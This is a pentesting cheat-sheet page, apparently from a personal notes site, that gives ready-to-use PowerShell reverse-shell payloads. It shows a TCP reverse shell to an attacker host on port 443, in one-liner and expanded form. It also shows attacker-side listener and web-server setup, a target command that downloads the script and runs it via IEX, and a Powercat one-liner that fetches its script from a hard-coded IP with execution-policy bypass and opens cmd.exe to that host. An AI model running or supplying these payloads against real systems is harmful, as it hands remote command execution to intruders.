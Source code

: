 # Powershell

{% hint style="info" %}
cmd.exe payload is more reliable and preferred.
{% endhint %}

## Powershell

### $ATTACKER

{% code title="rshell.ps1 \(one-liner\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$ATTACKER",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

{% code title="rshell.ps1 \(expanded\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$LHOST",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "# ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()};
$client.Close()
```
{% endcode %}

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
sudo ufw allow from $TARGET proto tcp to any port 80,443
```

### $TARGET

```bash
powershell IEX (New-Object Net.WebClient).DownloadString("http://$ATTACKER/rshell.ps1");
```

## Powercat

```bash
powershell  -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.189/powercat.ps1');powercat -c 192.168.119.189 -p 443 -e cmd.exe"
```

